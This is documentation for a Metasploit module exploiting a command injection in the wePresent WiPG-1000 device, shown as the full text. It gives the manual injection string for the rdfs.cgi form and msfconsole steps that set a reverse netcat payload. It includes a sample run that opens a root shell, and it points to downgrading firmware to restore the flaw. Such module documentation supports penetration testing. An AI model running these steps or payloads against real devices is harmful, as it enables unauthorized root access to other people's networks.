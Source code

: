 ## Vulnerable Application

  This module exploits a command injection vulnerability in the [wePresent WiPG-1000](http://wepresentwifi.com/wipg1000.html) device. A description of the exploited vulnerability is available in section 3.4 of [this advisory](https://www.redguard.ch/advisories/wepresent-wipg1000.txt).
  The latest vulnerable firmware version is 2.0.0.7. Newer versions can be downgraded to [the older firmware](http://www.wepresentwifi.com/assets/downloads/wipg1000/wePresent.1000.2.0.0.7.nad.zip).

  There is no complete list of vulnerable firmware versions, however the check method can reliably detect whether a device is vulnerable. The check method checks for the presence of the `rdfs.cgi` file and whether it contains the string `https://www.redguard.ch/advisories/wepresent-wipg1000.txt`. All known versions of this file on the device are vulnerable to this command injection.

  Manual exploitation would equate to browsing to the URI `http://<ip>/cgi-bin/rdfs.cgi` and entering the String `; command;` in the input field and submitting the form.

  Version 2.0.0.7 was confirmed vulnerable, and firmware 2.2.3.0 was released to fix the exploit.

## Verification Steps

  1. Make sure the device is running.
  2. Start msfconsole.
  3. Do: ```use exploit/linux/http/wipg1000_cmd_injection```
  4. Do: ```set payload cmd/unix/reverse_netcat```
  5. Do: ```set RHOST <ip>```
  6. Do: ```set LHOST <ip>```
  7. Do: ```exploit```
  8. You should get a shell.

## Options

### PAYLOAD

  The `generic`,`netcat` and `openssl` payload types are valid.

## Scenarios

### Firmware 2.0.0.7

  The following is an example run getting a shell:

  ```
  msf > use exploit/linux/http/wipg1000_cmd_injection 
  msf exploit(wipg1000_cmd_injection) > set payload cmd/unix/reverse_netcat
  payload => cmd/unix/reverse_netcat
  msf exploit(wipg1000_cmd_injection) > set RHOST 192.168.3.3
  RHOST => 192.168.3.3
  msf exploit(wipg1000_cmd_injection) > set LHOST 192.168.3.216
  LHOST => 192.168.3.216
  msf exploit(wipg1000_cmd_injection) > check
  [*] 192.168.3.3:80 The target appears to be vulnerable.
  msf exploit(wipg1000_cmd_injection) > exploit

  [*] Started reverse TCP handler on 192.168.3.216:4444 
  [*] Sending request
  [*] Command shell session 1 opened (192.168.3.216:4444 -> 192.168.3.3:50893) at 2017-04-20 16:11:48 +0200
  id

  uid=0(root) gid=0(root) groups=0(root),10(wheel)
  ```
